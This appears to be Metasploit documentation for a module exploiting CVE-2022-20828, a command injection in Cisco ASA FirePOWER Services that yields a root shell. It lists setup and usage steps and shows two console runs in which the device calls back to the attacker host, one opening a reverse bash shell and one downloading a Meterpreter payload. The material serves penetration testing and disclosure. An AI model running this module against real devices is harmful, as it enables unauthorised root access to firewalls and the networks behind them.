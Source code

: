 ## Vulnerable Application

### Description

This module exploits an authenticated command injection vulnerability affecting
Cisco ASA-X with FirePOWER Services. This exploit is executed through the ASA's
ASDM web server and lands in the FirePower Services SFR module's Linux virtual
machine as the root user. Access to the virtual machine allows the attacker to
pivot to the inside network, and access the outside network. Also, the SFR
virtual machine is running snort on the traffic flowing through the ASA, so
the attacker should have access to this diverted traffic as well.

This module requires ASDM credentials in order to traverse the ASDM interface.
A similar attack can be performed via Cisco CLI (over SSH), although that isn't
implemented here. This attack also assumes the module is installed and
configured.

Finally, it's worth noting that this attack bypasses the effects of the
`lockdown-sensor` command (e.g. the virtual machine's bash shell shouldn't be
available but this attack makes it available).

Cisco assigned this issue CVE-2022-20828. The issue affects all Cisco ASA that
support the ASA FirePOWER module (at least Cisco ASA-X with FirePOWER Service,
and Cisco ISA 3000). The vulnerability has been patched in ASA FirePOWER module
versions 6.2.3.19, 6.4.0.15, 6.6.7, and 7.0.21. The following versions will
receive no patch: 6.2.2 and earlier, 6.3.*, 6.5.*, and 6.7.*.

### Setup

Cisco ASA that support the FirePOWER Services module are, to our knowledge,
strictly hardware firewalls and not capable of being emulated. As such,
testing requires a physical device. Once a device is acquired, you'll
additionally need access to Cisco downloads of ASDM, ASA software, and the
FirePOWER Services Software for ASA. Unfortunately, Cisco hides these
behind a paywall (or a "contract" wall).

However, if you do acquire a Cisco ASA that supports the FirePOWER Services
module, then it will likely come with the module pre-installed. These systems
do support downgrading of the module via uninstall and reinstallation. If
you need to follow that course, then I found the following [guide](https://www.cisco.com/c/en/us/support/docs/security/asa-firepower-services/118644-configure-firepower-00.html#anc5) to be an excellent guide that
demonstrates how to install the FirePOWER module from boot image through
full installation.

This particular module exploits the FirePOWER module via ASDM, so you'll need
that installed and running as well. Likely, the ASA will have an ASDM binary
package already installed, but if not you'll need to download that from Cisco
and copy it onto the ASA. However, once that is complete, you can run the
following commands to start ASDM and enable it on the inside/outside network.

```
asdm image disk0:/asdm<version>.bin
http server enable
http network mask inside
http network mask outside
```

Where network and mask are who you want to be able to access it and inside
is the zone. E.g. "0.0.0.0 0.0.0.0 outside" is the internet. And that should
satisfy the pre-requisites for exploitation (ASDM+sfr).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/cisco_asax_sfr_rce`
* Do: `set USERNAME <username>`
* Do: `set PASSWORD <password>`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

### USERNAME

The username to authenticate with the ASDM http web server with.

### PASSWORD

The password to authenticate with the ASDM http web server with.

## Scenarios

### Successful exploitation of ASA 5506-X with FirePOWER Services for a root shell

```
msf6 > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf6 exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.21:43056 ) at 2022-04-21 12:49:15 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```

### Successful exploitation of ASA 5506-X with FirePOWER Services for a Meterpreter shell

```
msf6 > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf6 exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/http/cisco_asax_sfr_rce) > set TARGET 1
TARGET => 1
msf6 exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.2:8080/FeB2t5vKpa
[*] Client 10.0.0.21 (curl/7.48.0) requested /FeB2t5vKpa
[*] Sending payload to 10.0.0.21 (curl/7.48.0)
[*] Meterpreter session 2 opened (10.0.0.2:4444 -> 10.0.0.21:43058 ) at 2022-04-21 12:51:44 -0700
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

meterpreter > shell
Process 6315 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```
